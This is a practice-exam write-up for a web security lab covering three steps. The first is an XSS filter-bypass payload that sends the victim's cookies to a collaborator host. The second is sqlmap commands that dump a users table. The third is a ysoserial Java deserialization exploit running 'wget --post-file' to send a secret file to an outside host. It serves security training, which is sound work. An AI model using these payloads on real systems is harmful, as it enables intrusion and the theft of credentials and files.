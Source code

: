 # Practice Exam Solution
## 1/3
XXS injection vulnerability in search (PoC `"-alert(1)-"`), but lots of stuff caught:
* URL with dots
* document.cookie
* window.location

OOB can still be achieved via escaping:
```
"-(window["document"]["location"]='https://collaborator%2enet?'+window["document"]["cookie"])-"
```

This search term can be sent to the victim to make it perform this search and be redirected:
```
<script>
location = 'LAB_URL/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Frxs2hfxmit48f5e9r0hvg2bs7jd91y%252eoastify%252ecom%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22'
</script>
```
## 2/3
In the advanced search, an SQL injection is exploitable. `sqlmap` is very useful (the active scan should find the vulnerability) here, it just needs the correct session and lab cookie:
```
sqlmap -u "LAB_URL/filtered_search?SearchTerm=&sort-by=&writer=" \
	--cookie "session=...;_lab=..." \
	-p sort-by \
	--batch
```
the `-p` tells sqlmap which parameter to scan, batch makes everything a bit faster.

Once the injection is fully confirmed and a database name is available, information can be retrieved:
```
-D public                  # database name
--tables                   # retreive the tables
-T users                   # use table "users"
--dump                     # dumps all entries in the specified table
```

## 3/3
The last step is a deserialization vulnerability in the Java library. The admin panel has an interesting cookie called `admin-prefs`. URL decoding, then base64 decoding and then "smart" decoding (from the burp decoder) reveals that indeed a Java serialized object is used. 
The next step is to use `ysoserial` to generate an arbitrary payload and then base64 encrypting it. Submitting this value in the cookies reveals, that it must be in a gzip format:
```
ysoserial CollectionX "payload" | gzip -f | base64 | tr --d '\n'
```

Some error messages hint towards the backtick being escaped, thus, another way than inline commands need to be used:
```
wget --post-file /home/carlos/secret COLLABORATOR
```

Eventually, different collections should be tried out and each resulting string submitted. Even with errors in the response, the attack could have succeeded, so checking the collaborator is important.

This step can be more or less automated:
```
for i in {1..6}       
do
java -jar ysoserial-master-8eb5cbfbf6-1.jar CommonsCollections$i 'wget --post-file /home/carlos/secret https://kg428p6tem9ztdkj9ljehrs47vdl1a.oastify.com' | gzip -f | base64 | tr --d '\n'; echo "\n\n"
done
```
